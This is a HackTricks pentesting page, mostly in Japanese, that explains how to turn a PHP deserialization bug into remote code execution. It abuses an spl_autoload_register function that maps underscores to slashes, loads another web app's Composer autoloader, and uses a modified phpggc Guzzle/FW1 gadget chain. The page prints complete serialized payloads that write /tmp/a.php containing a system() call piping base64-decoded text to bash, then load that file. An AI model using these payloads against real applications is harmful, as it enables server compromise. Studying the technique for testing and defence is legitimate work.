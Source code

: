 # PHP - Deserialization + Autoload Classes

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

まず、[**オートローディングクラス**](https://www.php.net/manual/en/language.oop5.autoload.php)が何であるかを確認する必要があります。

## PHPデシリアライズ + spl\_autoload\_register + LFI/Gadget

私たちは、**`phpggc`**内にガジェットに脆弱なライブラリが**ない**ウェブアプリで**PHPデシリアライズ**を見つけた状況にいます。しかし、同じコンテナ内には**脆弱なライブラリを持つ別のComposerウェブアプリ**がありました。したがって、目標は**他のウェブアプリのComposerローダーを読み込み**、それを悪用して**デシリアライズに脆弱なウェブアプリのガジェットを使用してそのライブラリを攻撃すること**でした。

手順：

* **デシリアライズ**を見つけ、現在のアプリコードには**ガジェットがない**
* 次のような**`spl_autoload_register`**関数を悪用して、**`.php`拡張子のローカルファイルを読み込む**
* そのために、クラス名が**`$name`**の中に入るデシリアライズを使用します。シリアライズされたオブジェクトのクラス名に**"/"や"."**を使用することはできませんが、**コード**は**アンダースコア**("\_")を**スラッシュ**("/")に**置き換えています**。したがって、`tmp_passwd`のようなクラス名は`/tmp/passwd.php`に変換され、コードはそれを読み込もうとします。\
**ガジェットの例**は次のようになります：**`O:10:"tmp_passwd":0:{}`**
```php
spl_autoload_register(function ($name) {

if (preg_match('/Controller$/', $name)) {
$name = "controllers/${name}";
} elseif (preg_match('/Model$/', $name)) {
$name = "models/${name}";
} elseif (preg_match('/_/', $name)) {
$name = preg_replace('/_/', '/', $name);
}

$filename = "/${name}.php";

if (file_exists($filename)) {
require $filename;
}
elseif (file_exists(__DIR__ . $filename)) {
require __DIR__ . $filename;
}
});
```
{% hint style="success" %}
もし**ファイルアップロード**があり、**`.php`拡張子**のファイルをアップロードできる場合、この機能を**直接悪用**して、すでにRCEを取得することができます。
{% endhint %}

私の場合、そのようなものはありませんでしたが、**同じコンテナ**内に**`phpggc`ガジェットに脆弱なライブラリ**を持つ別のComposerウェブページがありました。

* この別のライブラリを読み込むには、まず**その別のウェブアプリのComposerローダーを読み込む必要があります**（現在のアプリケーションのものでは他のライブラリにアクセスできません）。**アプリケーションのパスを知っていれば**、次のように非常に簡単に実現できます：**`O:28:"www_frontend_vendor_autoload":0:{}`**（私の場合、Composerローダーは`/www/frontend/vendor/autoload.php`にありました）
* さて、他の**アプリのComposerローダーを読み込む**ことができるので、**使用するための`phpgcc`** **ペイロードを生成する**時が来ました。私の場合、**`Guzzle/FW1`**を使用し、これにより**ファイルシステム内の任意のファイルを書き込む**ことができました。
* 注：**生成されたガジェットは機能しませんでした**。機能させるために、**`chain.php`**のペイロードを**修正**し、クラスの**すべての属性**を**privateからpublicに**設定しました。そうしないと、文字列をデシリアライズした後、作成されたオブジェクトの属性には値がありませんでした。
* これで、**他のアプリのComposerローダーを読み込む方法**があり、**機能するphpggcペイロード**もありますが、**ガジェットが使用されるときにローダーが読み込まれるように、同じリクエスト内でこれを行う必要があります**。そのため、次のように両方のオブジェクトを含むシリアライズされた配列を送信しました：
* **最初にローダーが読み込まれ、その後ペイロードが表示される**のがわかります。

{% code overflow="wrap" %}
```php
a:2:{s:5:"Extra";O:28:"www_frontend_vendor_autoload":0:{}s:6:"Extra2";O:31:"GuzzleHttp\Cookie\FileCookieJar":4:{s:7:"cookies";a:1:{i:0;O:27:"GuzzleHttp\Cookie\SetCookie":1:{s:4:"data";a:3:{s:7:"Expires";i:1;s:7:"Discard";b:0;s:5:"Value";s:56:"<?php system('echo L3JlYWRmbGFn | base64 -d | bash'); ?>";}}}s:10:"strictMode";N;s:8:"filename";s:10:"/tmp/a.php";s:19:"storeSessionCookies";b:1;}}
```
{% endcode %}

* さて、**ファイルを作成して書き込む**ことができますが、ユーザーは**ウェブサーバー内の任意のフォルダーに書き込むことができません**。したがって、ペイロードに示されているように、PHPは**`system`**を呼び出し、いくつかの**base64**が**`/tmp/a.php`**に作成されます。次に、**最初のタイプのペイロード**を再利用して、他のウェブアプリのコンポーザーローダーを読み込むために、生成された**`/tmp/a.php`**ファイルを読み込むことができます。それをデシリアライズガジェットに追加するだけです:&#x20;

{% code overflow="wrap" %}
```php
a:3:{s:5:"Extra";O:28:"www_frontend_vendor_autoload":0:{}s:6:"Extra2";O:31:"GuzzleHttp\Cookie\FileCookieJar":4:{s:7:"cookies";a:1:{i:0;O:27:"GuzzleHttp\Cookie\SetCookie":1:{s:4:"data";a:3:{s:7:"Expires";i:1;s:7:"Discard";b:0;s:5:"Value";s:56:"<?php system('echo L3JlYWRmbGFn | base64 -d | bash'); ?>";}}}s:10:"strictMode";N;s:8:"filename";s:10:"/tmp/a.php";s:19:"storeSessionCookies";b:1;}s:6:"Extra3";O:5:"tmp_a":0:{}}
```
{% endcode %}

**ペイロードの概要**

* **同じコンテナ内の別のウェブアプリのcomposerオートロードを読み込む**
* **phpggcガジェットを読み込む** ことで、他のウェブアプリのライブラリを悪用する（最初のウェブアプリはデシリアライズに対して脆弱で、ライブラリにガジェットがなかった）
* ガジェットは、悪意のあるコマンドを含む**PHPペイロード**を/tmp/a.phpに作成する（ウェブアプリのユーザーは、どのウェブアプリのフォルダーにも書き込むことができない）
* ペイロードの最終部分は、**生成されたPHPファイルを読み込む**ことでコマンドを実行する

私はこのデシリアライズを**2回呼び出す必要があった**。私のテストでは、最初の時に/tmp/a.phpファイルが作成されたが読み込まれず、2回目に正しく読み込まれた。

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
